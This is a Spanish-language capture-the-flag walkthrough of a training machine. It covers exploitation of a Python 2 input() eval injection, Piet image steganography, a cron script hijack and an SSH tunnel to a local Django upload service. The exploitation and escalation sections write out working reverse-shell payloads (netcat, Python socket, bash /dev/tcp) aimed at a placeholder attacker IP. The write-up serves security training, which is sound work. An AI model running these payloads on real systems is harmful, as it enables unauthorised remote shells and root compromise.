

# <font color=red>[+]</font> Reconocimiento

```bash
sudo nmap -p- -sS -Pn -n -vvv --min-rate 5000 $IP

PORT      STATE SERVICE          REASON
22/tcp    open  ssh              syn-ack ttl 62
10000/tcp open  snet-sensor-mgmt syn-ack ttl 62
```

```bash
sudo nmap -p 22,10000 -Pn -n -sVC -v --min-rate 5000 -oN versiones.nmap $IP

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL: 
|     Private 0days
|_    Please enther number of exploits to send??:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.98%I=7%D=4/20%Time=69E5F853%P=x86_64-pc-linux-gnu%r(N
SF:ULL,48,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x2
SF:0Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20")%
SF:r(GetRequest,136,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\
SF:r\n\r\n\x20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?
SF:\?:\x20Traceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File
SF:\x20\"\./exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20
SF:\x20num_exploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x2
SF:0of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<strin
SF:g>\",\x20line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'GET'\x2
SF:0is\x20not\x20defined\r\n")%r(HTTPOptions,13A,"\r\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20o
SF:f\x20exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20ca
SF:ll\x20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20i
SF:n\x20<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20
SF:Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\
SF:)\r\n\x20\x20File\x20\"<string>\",\x20line\x201,\x20in\x20<module>\r\nN
SF:ameError:\x20name\x20'OPTIONS'\x20is\x20not\x20defined\r\n")%r(RTSPRequ
SF:est,13A,"\r\n\x20\x20\x20\x20\x20\x20\x20\x20Private\x200days\r\n\r\n\x
SF:20Please\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20Tr
SF:aceback\x20\(most\x20recent\x20call\x20last\):\r\n\x20\x20File\x20\"\./
SF:exploit\.py\",\x20line\x206,\x20in\x20<module>\r\n\x20\x20\x20\x20num_e
SF:xploits\x20=\x20int\(input\('\x20Please\x20enther\x20number\x20of\x20ex
SF:ploits\x20to\x20send\?\?:\x20'\)\)\r\n\x20\x20File\x20\"<string>\",\x20
SF:line\x201,\x20in\x20<module>\r\nNameError:\x20name\x20'OPTIONS'\x20is\x
SF:20not\x20defined\r\n")%r(GenericLines,13B,"\r\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20Private\x200days\r\n\r\n\x20Please\x20enther\x20number\x20of\x2
SF:0exploits\x20to\x20send\?\?:\x20Traceback\x20\(most\x20recent\x20call\x
SF:20last\):\r\n\x20\x20File\x20\"\./exploit\.py\",\x20line\x206,\x20in\x2
SF:0<module>\r\n\x20\x20\x20\x20num_exploits\x20=\x20int\(input\('\x20Plea
SF:se\x20enther\x20number\x20of\x20exploits\x20to\x20send\?\?:\x20'\)\)\r\
SF:n\x20\x20File\x20\"<string>\",\x20line\x200\r\n\x20\x20\x20\x20\r\n\x20
SF:\x20\x20\x20\^\r\nSyntaxError:\x20unexpected\x20EOF\x20while\x20parsing
SF:\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Puerto 10000

Si accedemos al servicio que corre en el `puerto 10000` se nos pide que introduzcamos un número de *exploits* para enviar. Cuando lo hacemos vemos que se refiere al número de pings que queremos hacer a la red interna de ***tryhackme.com***. Pero si enviamos, en vez de un número una letra, se nos muestra un error como este (también podemos verlo en el escaneo de ***Nmap***):
```python
Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
TypeError: int() argument must be a string or a number, not 'builtin_function_or_method'
```

Lo que nos interesa ahora es saber la versión de Python que corre el servicio.

>[!tip]
>En la versión ***Python 2***, la forma en la que se gestiona la entrada del usuario a través de la función `input()` es completamente distinta a como lo hace en la versión ***Python 3***.
>
>En la versión ***Python 2***, cuando usamos `input()`, la entrada del usuario se entiende como código cuando recibe expresiones. Por lo que si ponemos la entrada 2 + 2 y se realizan 4 *pings* significaría que nos encontramos frente a un script en ***Python 2***. Y obtenemos ***4 pings***.
# <font color=red>[+]</font> Explotación

Lo interesante aquí es tratar de obtener un ***RCE*** a través de este script, por lo que debemos de importar la librería `os` de ***Python*** y usarla para ejecutar comandos del sistema. Pero, como ya hemos dicho, la función `input()` a menudo está limitada a evaluar ***expresiones*** (una ***expresión*** es algo que devuelve un valor como `2 + 2` o una llamada a una función; mientras que una ***sentencia*** es una instrucción de estructura como `import` o `def`).

Para solucionarlo, podemos usar `__import__`. `__import__` es una función que hace lo mismo que `import`, pero al ser una función se considera una ***expresión***. Esto permite que se ejecute dentro de un `eval()` o un `input()`. Además, al ser una ***expresión***, podemos ponerle un `.` al final y llamar inmediatamente a un método del módulo importado.

Sabiendo todo esto, si introducimos la siguiente cadena `__impor__('os').system('id')` deberíamos de ver el ***usuario***, **UID**, y los ***grupos*** con sus respectivos ***GID*** del usuario que esté ejecutando el script.
```
		Private 0days

 Please enther number of exploits to send??: __import__('os').system('id')
uid=1000(king) gid=1000(king) groups=1000(king),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

De la misma forma, podemos ejecutar una shell en *bash* o realizar una *reverse shell* usando el mismo principio. Por ejemplo, podemos generar una shell directamente con: `__import__('os').system('/bin/bash')`. Sin embargo, a la hora de *upgradear* la shell me ha dado problemas, por lo que finalmente he optado por crear una reverse shell. Para ello, podemos usar ***NetCat*** o ***Python***.

```bash
# Usando netcat
__import__('os').system('nc -e /bin/bash IP_KALI 4444')

# Usando Python
__import__('os').system('python -c "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'IP_KALI\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\'/bin/bash\')"')
```
# <font color=red>[+]</font> Post-Explotación

Tenemos acceso al sistema como el usuario ***king***, con el cual podemos leer la ***flag*** `user.txt`. Sin embargo, debemos de escalar privilegios hasta convertirnos en el usuario `root`.
## <font color=red>[~]</font> Escalada de privilegios vertical

Si enumeramos los ficheros del directorio `home` del usuario ***king*** observamos varios archivos interesantes. El primero es un archivo `credentials.png` el cual si lo movemos a nuestra máquina y lo abrimos, vemos una imagen en blanco con bordes de colores.
### <font color=red>[-]</font> Imagen `.png`

Si usamos `exiftool` observamos que en la secciones de `Palette` y `Transparency` se nos indica que hay datos binarios. Podemos usar la opción `-b` para tratar de extraerlos. Entre estos datos podemos ver algo que nos llama especialmente la atención, el nombre ***Mondrian***.

Estos patrones de colores, sumados al nombre ***Mondrian*** pueden llamarnos la atención y hacernos pensar en un lenguaje de programación llamado ***Piet***.

>[!Note]
>**Piet** es un lenguaje de programación esotérico (esolang) diseñado por David Morgan-Mar, cuyo código no se escribe mediante texto, sino que se visualiza como arte abstracto geométrico. Inspirado en las obras del pintor neerlandés **Piet Mondrian**, este lenguaje utiliza mapas de bits donde los "píxeles" de código se denominan **codels**. El flujo de ejecución no sigue un orden de líneas secuenciales, sino que un puntero se desplaza por los bloques de color; las instrucciones (como sumas, lecturas de datos o impresión de caracteres) se definen mediante las **transiciones de color**, basándose específicamente en los cambios de **matiz (hue)** y **luminosidad**. En el contexto de la ciberseguridad y los CTFs, Piet es una técnica de esteganografía avanzada muy efectiva, ya que permite ocultar lógica ejecutable y credenciales a plena vista bajo la apariencia de una simple imagen artística.

Si usamos algún interprete online veremos que obtenemos las credenciales para el usuario ***king***, pero este no pertenece al grupo sudo y de momento no nos sirve para nada.
### <font color=red>[-]</font> Scripts

También encontramos 3 scripts escritos en ***Python*** y ***bash***. El script de ***Python*** es el que corría en el `puerto 10000`, mientras que los scripts de *bash* son `root.sh` y `run.sh`. 

El script `root.sh` parece ser un script que se programaría con `cron` para ejecutarse cada cierto tiempo. Por lo que, como no tenemos permisos de escritura sobre el archivo pero si sobre el directorio, cambiamos el nombre al archivo de `root.sh` a `root.sh.bak` y creamos un nuevo fichero con el nombre `root.sh` que contenga una reverse shell.
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/IP_KALI/5555 0>&1
```
### <font color=red>[-]</font> Opción DJango

Si observamos los servicios que están corriendo en la máquina a través de Internet, vemos que en el `puerto 8080` solo para la interfaz de `loopback` está levantado un ***servidor web DJango***.

No lo vimos en el escaneo de ***Nmap*** ya que solo está disponible desde el mismo servidor víctima. Pero podemos acceder al él usando un ***túnel SSH***:
```bash
ssh -L 8081:127.0.0.1:8080 king@$IP
# Aquí es donde podremos hacer uso de las credenciales SSH del usuario king
```

Ahora, si buscamos en el navegador `http://127.0.0.1:8081` veremos el servicio web. en él encontramos una app web muy básica que nos permite subir archivos `.py` que se almacenarán en `/media/`. Si recordamos los scripts que se encontraban en el directorio `/home` del usuario ***king***, recordamos que el `root.sh` original ejecutaba como ***root*** todos los archivos `.py` que se encontraban en `/media/`. Por lo que si subimos un script de ***Python*** con una reverse shell obtendremos una shell como `root`.
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("IP_KALI",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

---
---
# <font color=red>[+]</font> Explicación
## <font color=red>[-]</font> Túnel SSH

En auditorías de red, es común encontrar servicios que están configurados para escuchar únicamente en la interfaz de ***loopback (`127.0.0.1`)***. Esto significa que el servicio esté activo, es invisible para cualquier escaneo externo (como ***Nmap***) porque el servidor solo acepta conexiones que se originen dentro del sí si mismo.

Para acceder a este servidor Django desde nuestra máquina atacante, utilizamos una técnica llamada ***Local Port Forwarding*** mediante SSH.
### 1. Anatomía del comando
```bash
ssh -L 8081:127.0.0.1:8080 king@IP
```

Podemos desglosar la lógica de los números así:
- `-L`: Indica que vamos a realizar un túnel de tipo ***Local***.
- `8081`: Es el puerto que se abrirá en ***nuestra máquina atacante***. Es la "entrada" del túnel.
- `127.0.0.1`: Es la dirección a la que el servidor remoto debe redirigir el tráfico una vez que llegue allí.
- `8080`: Es el puerto de "salida" del túnel en el servidor remoto (donde corre *Django*).
### 2. Cómo viaja la información?

Imagina que el túnel SSH es una tubería segura que atraviesa el firewall:
1. Nosotros abrimos el navegador en nuestra máquina atacante y entramos en `http://127.0.0.1:8081`.
2. Nuestra máquina envía esa petición al puerto local ***8081***.
3. El servicio SSH captura ese tráfico y lo envía ***encriptado*** a través de la conexión SSH ya establecida con el servidor.
4. El servidor recibe el paquete, lo "desempaqueta" y lo entrega localmente al puerto ***8080***.
5. Para el servidor Django, la petición parece venir de la propia máquina (`127.0.0.1`), por lo que ***permite la conexión***.
#### Diagrama de Flujo: Túnel SSH Local (`-L`)



### 3. Por qué es vital para este CTF?

Sin el túnel, el servidor Django es inalcanzable. El túnel no solo nos permite ver la web, sino que ***encapsula*** nuestro tráfico dentro de una conexión legítima (SSH), lo que en un entorno real serviría para evadir reglas de firewall que bloquean puertos no estándar.

>[!tip]
>No debemos de confundir esta técnica de ***Local Port Forwarding*** con el ***Remote Port Forwarding*** (`-R`), ya que esta otra técnica hace lo contrario (trae un puerto de nuestra máquina atacante hacia la víctima).

>[!Note]
>Usar el puerto `8081` en local mientras el remoto es `8080` es una buena práctica para evitar conflictos si tenemos algo corriendo en el puerto `8080` de nuest
>ra máquina (como ***Burp Suite***).
